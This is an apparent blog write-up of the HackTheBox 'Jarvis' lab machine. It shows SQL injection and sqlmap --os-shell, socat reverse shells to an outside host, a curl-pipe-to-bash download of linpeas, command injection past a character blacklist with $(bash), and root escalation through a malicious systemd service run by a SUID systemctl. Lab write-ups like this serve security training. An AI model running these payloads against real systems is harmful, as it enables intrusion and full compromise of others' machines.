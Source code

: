 ```yaml
---
title: "Jarvis - HackTheBox"
date: 2019-11-09T18:07:25+02:00
tags: [SQL injection, systemctl, misconfiguration, SUID]
---
```


## Information gathering

Let's run a quick nmap scan:
```
$ nmap -A -T4 10.10.10.143
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-22 20:09 EDT
Nmap scan report for 10.10.10.143
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds
```

## Exploration

The website is a hotel presentation and trying to run `gobuster` on it get us
banned and the site will respond with this message:

> Hey you have been banned for 90 seconds, don't be bad

Nevermind, let's wait a bit.

In the rooms section the data for each room is 
Exploring the website, we can see that the link to each room uses a `GET`
parameter to indicate the number of the room, for example:
```
http://10.10.10.143/room.php?cod=1
```
We can try to see if it's vulnerable to `SQL` injection by visiting the
following urls:
```
http://10.10.10.143/room.php?cod=1337 or 1=1
```
It will return the first room even if the `cod` parameter does not match.

## Getting a shell

We can try to get a shell using `sqlmap` by using the `--os-shell` option:
```
sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell --random-agent
```
![](/images/hackthebox/jarvis/www-data-shell.png)

And it does work! We have a shell as `www-data` user.

We can get a better shell thant this one by running a `socat` listener on our
machine with this command:
```
socat file:`tty`,raw,echo=0 tcp-listen:1337
```
and connect to it with this command:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:1337
```

## Further enumeration

The following step is to run an enumeration script on the machine, I choose 
[linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).

So after running a web server on our machine with `python2.7 -m SimpleHTTPServer
8080` let's run the script on the remote machine with `curl
http://10.10.14.8:8080/linpeas.sh | bash`.

There seems to be an interesting command that we can run as the user `pepper`
without providing it's password:
![](/images/hackthebox/jarvis/simpler.png)

Here's the code of `simpler.py` (I removed the useless parts):
```python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It's a wrapper to the `ping` command, and it basically pings any host that we
provide as input. There are some characters that we can not use as input, but
luckily we can use `$`, `(` and `)`.  
We can easily get a shell by using `$(bash)` as the ip to connect to:
![](/images/hackthebox/jarvis/user-shell.png)

And then let's get the flag:
```
pepper@jarvis:/var/www/Admin-Utilities$ cat /home/pepper/user.txt
2afa36c4f05b37b34259c93551f5c44f
```

## Privilege escalation

By running again `linpeas.sh` we stumble upon an unusual executable who has the
`SUID` bit set, `systemctl`. We can exploit this to run any command as `root`, so
let's create a `systemd` service file that will gets us a reverse shell:
```
[Service]
Type=oneshot
ExecStart=/bin/bash -c "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:1338"
[Install]
WantedBy=multi-user.target
```
And after setting up our `socat` listener, let's install and run the service:
```
$ systemctl link /home/pepper/shell.service
$ systemctl enable --now /home/pepper/shell.service
```

And here's our shell! Let's get the flag:
```
$ socat file:`tty`,raw,echo=0 tcp-listen:1338
root@jarvis:/# cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271
```

See you in the next one! Thanks for reading!
